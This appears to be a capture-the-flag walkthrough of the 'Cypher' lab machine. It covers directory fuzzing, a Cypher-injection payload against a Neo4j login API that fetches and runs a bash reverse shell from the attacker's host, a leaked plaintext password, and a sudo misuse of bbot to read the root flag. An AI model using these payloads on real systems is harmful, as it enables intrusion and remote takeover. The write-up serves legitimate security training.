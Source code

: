 Let's scan the IP address `10.10.11.57`
```bash
sudo nmap -v -sC -sV 10.10.11.57 -oN nmap/initial
```
![image](images/20250405174615.png)

Let's go to the website
![image](images/20250405174710.png)

Let's scan the hidden directories of the website
```bash
ffuf -u http://cypher.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![image](images/20250408124013.png)

If we go to `cypher.htb/testing`, we will see a `.jar` file:
![image](images/20250405201805.png)

Download and unpack it
```bash
jar xf custom-apoc-extension-1.0-SNAPSHOT.jar
```
![image](images/20250405201950.png)

We can see that `Neo4j v5.23.0` is running on the site.

>**Neo4j** is an open source graph database management system implemented in Java.

If we go to `cypher.htb/api`, we will see the following:

![image](images/20250405174835.png)

Let's scan the hidden directories `cypher.htb/api/`:
```bash
ffuf -u http://cypher.htb/api/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![image](images/20250405175901.png)

If we go to the address `cypher.htb/api/auth`, we will see the following:
![image](images/20250405175038.png)

This method is not accepted. Let's intercept the request in Burp Suite and send it to `Repeater`
![image](images/20250405181910.png)

A `GET` request is sent. Let's change it to `POST`
![image](images/20250405181951.png)

<div style="page-break-after: always;"></div>
The code for the `cypher.htb/login` page contained the following:

```JavaScript
// TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
      var password = $("#passwordfield").val();
      $.ajax({
        url: '/api/auth',
        type: 'POST',
        contentType: 'application/json',
        data: JSON.stringify({ username: username, password: password }),
        success: function (r) {
          window.location.replace("/demo");
        },
        error: function (r) {
          if (r.status == 401) {
            notify("Access denied");
          } else {
            notify(r.responseText);
          }
        }
      });
    }
    $("form").keypress(function (e) {
      if (e.keyCode == 13) {
        doLogin(e);
      }
    })
    $("#loginsubmit").click(doLogin);
```
Change `Content-Type` to `application/json` and add authentication parameters
```Request
{
  “username”: “admin”,
  “password”: “password”
}
```
![image](images/20250405184328.png)

We can see that this is the correct request, but the data is incorrect. Let's try applying an SQL injection
![image](images/20250405184420.png)

The `Python` file error was displayed
The following was found in the error:
![image](images/20250405184538.png)

It is clear that this is `Neo4j`, which executes `Cypher` queries, and that the SQL injection did not work in the SQL query.
Commenting in `Neo4j` works not through `--`, but through `//`. Let's try to throw a `reverse shell` through authorization in `API`. 
First, let's create a `Reverse Shell` and start the HTTP server
```bash
echo “/bin/bash -i >& /dev/tcp/10.10.14.180/4444 0>&1” > shell.sh
```
```bash
sudo python3 -m http.server 80
```
Next, insert the following code into `username`:
```bash
test' return h.value as a UNION CALL custom.getUrlStatusCode(\“cypher.com; curl 10.10.14.180/shell.sh|bash;#\”) YIELD statusCode AS a RETURN a;//
```
1. Closing the original query
- `test'` — closes the quotation marks in the original query:
```cypher
  MATCH (u:USER)-[:SECRET]->(h:SHA1) 
  WHERE u.name = ‘test’  <-- Closed here
  ```
2. Substituting the returned data:
- `return h.value as a` — returns the value `h.value` under the alias `a` to match the UNION structure.
3. UNION attack:
- `UNION` — combines the result of the original query with the result of a new subquery. 
  **Purpose:** To add arbitrary code to the original query.
4. Calling a dangerous function:
- `CALL custom.getUrlStatusCode(...)` — calls the custom function `getUrlStatusCode`, which probably performs HTTP requests.  
  **Vulnerability:** The function does not sanitize input data, allowing commands to be injected via `;`.
5. Injecting commands into the URL:
- `“cypher.com; curl 10.10.14.180/shell.sh|bash;#”`  
  **Breakdown:**
- `cypher.com` — legitimate part of the URL (to bypass possible checks).
  - `;` — command separator in shell.
  - `curl 10.10.14.180/shell.sh | bash` — downloads the `shell.sh` script from your server and executes it via `bash`.
  - `#` — comments out the rest of the URL (to avoid syntax errors).
6. Completing the query:
- `YIELD statusCode AS a RETURN a;//`
- `YIELD` and `RETURN` — correctly complete the Cypher query.
- `;//` — closes the query and comments out the rest of the original code.

![image](images/20250405203316.png)

There is a user `graphasm`. Let's see what he has in his home directory

![image](images/20250405205006.png)

```Password
cU4btyib.20xtCMCXkBmerhK
```
This password does not work for the user `neo4j`. Perhaps it will work for the user `graphasm`.
![image](images/20250405205831.png)

Let's check what commands it can execute with sudo
![image](images/20250405210112.png)

We can call the `BBOT` tool and execute commands associated with it. Let's see what flags it has:
```bash
graphasm@cypher:~$ /usr/local/bin/bbot -h
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Creating BBOT config at /home/graphasm/.config/bbot/bbot.yml
[INFO] Creating BBOT secrets at /home/graphasm/.config/bbot/secrets.yml
usage: bbot [-h] [-t TARGET [TARGET ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]] [--strict-scope] [-p [PRESET ...]] [-c [CONFIG ...]] [-lp]
            [-m MODULE [MODULE ...]] [-l] [-lmo] [-em MODULE [MODULE ...]] [-f FLAG [FLAG ...]] [-lf] [-rf FLAG [FLAG ...]] [-ef FLAG [FLAG ...]] [--allow-deadly]
            [-n SCAN_NAME] [-v] [-d] [-s] [--force] [-y] [--dry-run] [--current-preset] [--current-preset-full] [-o DIR] [-om MODULE [MODULE ...]] [--json] [--brief]
            [--event-types EVENT_TYPES [EVENT_TYPES ...]] [--no-deps | --force-deps | --retry-deps | --ignore-failed-deps | --install-all-deps] [--version]
            [-H CUSTOM_HEADERS [CUSTOM_HEADERS ...]] [--custom-yara-rules CUSTOM_YARA_RULES]

Bighuge BLS OSINT Tool

options:
  -h, --help            show this help message and exit

Target:
  -t TARGET [TARGET ...], --targets TARGET [TARGET ...]
                        Targets to seed the scan
...
...
...
EXAMPLES

    Subdomains:
        bbot -t evilcorp.com -p subdomain-enum

    Subdomains (passive only):
        bbot -t evilcorp.com -p subdomain-enum -rf passive

    Subdomains + port scan + web screenshots:
        bbot -t evilcorp.com -p subdomain-enum -m portscan gowitness -n my_scan -o .

    Subdomains + basic web scan:
        bbot -t evilcorp.com -p subdomain-enum web-basic

    Web spider:
        bbot -t www.evilcorp.com -p spider -c web.spider_distance=2 web.spider_depth=2

    Everything everywhere all at once:
        bbot -t evilcorp.com -p kitchen-sink
```
There is a `-t` flag, to which we give a target for scanning. Let's try giving it the target `/root/root.txt`
```bash
sudo /usr/local/bin/bbot -t /root/root.txt
```
![image](images/20250408122418.png)

`BBOT` interpreted `/root/root.txt` as a file with targets. `BBOT` tried to read this file as a list of targets to scan (e.g., domains, IP addresses), but instead it got the contents of the `root.txt` file, which most likely looks like a hash (or a random string): `25bb48f1ea0967eed85814a347932f86`
It attempted to process this string as a DNS name `[DNS_NAME_UNRESOLVED] 25bb48f1ea0967eed85814a347932f86 TARGET`. Since the string is not a valid domain, BBOT marked it as unresolved but logged it.
